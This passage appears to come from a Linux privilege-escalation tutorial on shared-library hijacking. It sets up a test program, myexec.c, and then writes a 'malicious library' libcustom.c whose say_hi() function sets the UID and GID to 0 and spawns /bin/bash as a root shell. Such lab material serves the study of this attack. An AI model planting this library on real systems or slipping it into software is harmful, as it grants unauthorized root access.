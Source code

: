Now we will write create a program that simply prints a message. I will name this file as `myexec.c`:

```bash
low@ubuntu:~/so-files$ vim myexec.c
```

This code imports the `libcustom.h` header file, the `main()` function prints a message and it executes the `say_hi()` function which is found in the header file `libcustom.h` and if the execution is successful it returns a status code of (0):

```c
#include <stdio.h>
#include "libcustom.h"

int main(){
    printf("Message from myexec.c!\n");
    say_hi();
    return 0;
}
```

Now create a new directory named `evil` and navigate there, this is where the malicious library will be placed:

```bash
low@ubuntu:~/so-files$ mkdir evil
low@ubuntu:~/so-files$ cd !$
cd evil
low@ubuntu:~/so-files/evil$ 
```

Lastly, we'll create the code that will be included in the malicious library file. I'll named this file as `libcustom.c`:

```bash
low@ubuntu:~/so-files/evil$ vim libcustom.c
```

This code sets the UID (0) which is the UID of the root user. Then it sets the GID of (0) which the root group. The next three lines print a message of their own. The last line spawns a bash shell:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

void say_hi(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library!\n");
    printf("I'm trying to spawn a root shell...\n");
    printf("Check your shell!\n");
    system("/bin/bash");
}
```
